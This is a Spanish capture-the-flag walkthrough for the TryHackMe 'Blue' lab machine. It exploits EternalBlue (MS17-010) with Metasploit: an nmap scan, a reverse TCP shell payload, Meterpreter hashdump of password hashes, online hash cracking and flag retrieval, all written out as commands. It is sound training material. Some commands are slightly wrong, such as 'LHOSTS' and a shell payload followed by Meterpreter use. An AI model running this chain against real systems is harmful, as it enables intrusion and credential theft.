





### **Tutorial: Explotación de la vulnerabilidad MS17-010 (EternalBlue) en THM**

---

### **Paso 1: Escaneo de puertos con Nmap**

Ejecutamos el siguiente comando para escanear los servicios en la máquina objetivo:

```bash
nmap -sC -sV 10.10.95.71
```



**Nota:** EternalBlue es una vulnerabilidad en Microsoft Windows explotada por la NSA antes de ser revelada públicamente. Permite a un atacante obtener acceso remoto a computadoras vulnerables.

En el escaneo, encontramos **3 puertos abiertos por debajo de 1000**.



---

### **Paso 2: Buscar y seleccionar el exploit en Metasploit**

Ejecutamos **msfconsole** y buscamos el exploit para la vulnerabilidad MS17-010 con:

```bash
search ms17-010
```


La ruta completa del código del exploit es:

```bash
exploit/windows/smb/ms17_010_eternalblue
```


Seleccionamos el exploit con:

```bash
use 0
```

Después, configuramos el payload:

```bash
set payload windows/x64/shell/reverse_tcp
```

Mostramos las opciones con:

```bash
show options
```


---

### **Paso 3: Configurar parámetros y ejecutar el exploit**

Definimos la IP de la máquina víctima:

```bash
set RHOSTS 10.10.95.71
```



Definimos nuestra IP en la VPN de THM:

```bash
set LHOSTS <tu_ip_vpn>
```


Ejecutamos el exploit:

```bash
run
```


Una vez dentro de la máquina víctima, verificamos la IP con:

```bash
ipconfig
```


Colocamos la sesión en segundo plano con:

```bash
Ctrl + Z
```


Revisamos las sesiones activas:

```bash
sessions -l
```


Ingresamos a Meterpreter con:

```bash
sessions -i 2
```


Ahora que tenemos privilegios elevados, ejecutamos:

```bash
hashdump
```


Copiamos el hash y lo crackeamos en **Crackstation.net**.


Contraseña obtenida: **alqfna22**

---

### **Paso 4: Obtención de las flags**

#### **Primera Flag**

Nos movemos a la raíz del sistema:

```bash
meterpreter > cd /
meterpreter > dir
```


Leemos la flag:

```bash
meterpreter > cat flag1.txt
```

Flag obtenida: **1/3**

---

#### **Segunda Flag**

Nos dirigimos a la nueva ruta indicada:



Leemos la flag:

```bash
meterpreter > cat flag2.txt
```

Flag obtenida: **2/3**

---

#### **Tercera Flag**

Vamos a la ruta indicada:



Leemos la flag:

```bash
meterpreter > cat flag3.txt
```

Flag obtenida: **3/3**

---

### **Conclusión**

Hemos completado la explotación de la máquina **BLUE** en TryHackMe, utilizando **EternalBlue (MS17-010)** para obtener acceso, escalar privilegios y extraer información clave.

**Objetivos logrados:**
+ ✅ Identificación de puertos abiertos.
+ ✅ Explotación de vulnerabilidad SMB.
+ ✅ Acceso a la máquina con Meterpreter.
+ ✅ Extracción de credenciales.
+ ✅ Obtención de todas las flags.


